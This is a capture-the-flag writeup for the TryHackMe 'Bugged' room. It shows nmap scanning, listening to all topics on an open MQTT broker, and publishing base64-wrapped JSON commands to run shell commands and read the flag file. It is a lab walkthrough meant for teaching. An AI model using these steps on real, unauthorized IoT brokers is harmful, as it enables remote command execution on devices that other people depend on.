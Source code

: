 # 📝 Writeup – Bugged (TryHackMe)

---

## ENUMERATION
Standard start — quick port sweep:

```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
````

Found ports: `22`, `1883`. Focused scan:

```bash
nmap -p 22,1883 -sC -sV -vv -oN scan.nmap <IP>
```

![nmap](screenshots/nmap1.png)

---

## PORT 1883 — MQTT basics (short)

If you haven’t dealt with MQTT before — it’s simple:

* **Broker**: central server that routes messages.
* **Clients**: devices/apps that either **publish** (send) or **subscribe** (receive) to topics.
* Topics are hierarchical strings like `home/living/temperature`.
* Wildcards:

  * `#` subscribes to all topics at and below that level (everything).
  * `+` is single-level wildcard.

Install the tools:

```bash
sudo apt update
sudo apt install mosquitto mosquitto-clients -y
```

---

## SUBSCRIBE & LISTEN

Subscribe to everything to see traffic:

```bash
mosquitto_sub -h <IP> -p 1883 -t '#' -v
```

* `-t '#'` = subscribe to all topics
* `-v` verbose

Screenshot of listening:
![mosquitto\_sub](screenshots/mosquitto_sub.png)

You’ll get messages like `topic payload`. One payload looked like base64. Decode it:

```bash
echo 'BASE64STRING' | base64 -d
```

Decoded payloads revealed a client ID and two topics:

* publisher: `U4vy....CHg/pub`
* subscriber: `XD2r....g0E/sub`

Looks like the service publishes on `U4vy.../pub` and reads commands on `XD2.../sub`.

---

## TALKING TO THE BROKER (PUBLISH)

We can publish to the `.../sub` topic to make the service respond on `.../pub`.

Example test message (raw):

```bash
mosquitto_pub -h <IP> -p 1883 -t 'XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub' -m '{HELP}'
```     
![publish](screenshots/mosquitto_pub.png)    
If the service expects base64 or another wrapper, adjust accordingly. In my run, after decoding flows I learned the expected formats were something like ``base64({"id":"<id>", "cmd":"HELP, SYS or CMD", "arg":"<arg>"})``

After sending the correctly structured message (the challenge used base64-wrapped payloads in messages), I got this helpful reply:
![HELP](screenshots/HELP.png)

Decoded it (example):

```bash
# If payload was base64
echo 'RECEIVED_BASE64' | base64 -d
```

---

## GETTING THE FLAG

I sent a `CMD` to run `ls` and then `cat flag.txt`. Example:
```bash
echo '{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd":"CMD", "arg":"ls"}' | base64
```
```bash
mosquitto_pub -h <IP> -p 1883 -t 'XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub' -m '<base64>'
```   

Response (base64 or raw) arrives on the `.../pub` topic. Decode and enjoy the flag:
![flag](screenshots/flag.png)

---
## TL;DR (again, cause we love that)

Subscribe to `#`, decode base64 messages → figure the publish/sub topics → craft the correct `{CMD}` message → publish it → decode the response on the pub topic → flag. Simple IoT vibes, big results.

---
## Notes, corrections & tips

* MQTT default port is **1883** (unencrypted); authenticated/secure brokers may use TLS/8883.
* You may encounter base64 wrapping, JSON, or custom framing — always inspect decoded payloads carefully.
* If you get weird characters after base64 decode, try trimming non-base64 chars or re-check the exact payload (some services add noise).
* If the service requires a particular client ID or QoS, `mosquitto_pub` supports `-i <clientid>` and `-q <qos>`.

---

## References / Further reading

* A helpful writeup on MQTT and pentesting: [https://medium.com/@srkasthuri/exploring-mqtt-security-a-deep-dive-for-pentesters-ed24cd3452c5](https://medium.com/@srkasthuri/exploring-mqtt-security-a-deep-dive-for-pentesters-ed24cd3452c5)
  (Useful background if you want to dig deeper into MQTT attack vectors.)

---

## Ethics & disclaimer

Do this only on lab machines or assets you have permission to test. Don’t be careless with devices that talk to real hardware — you can break things.

---
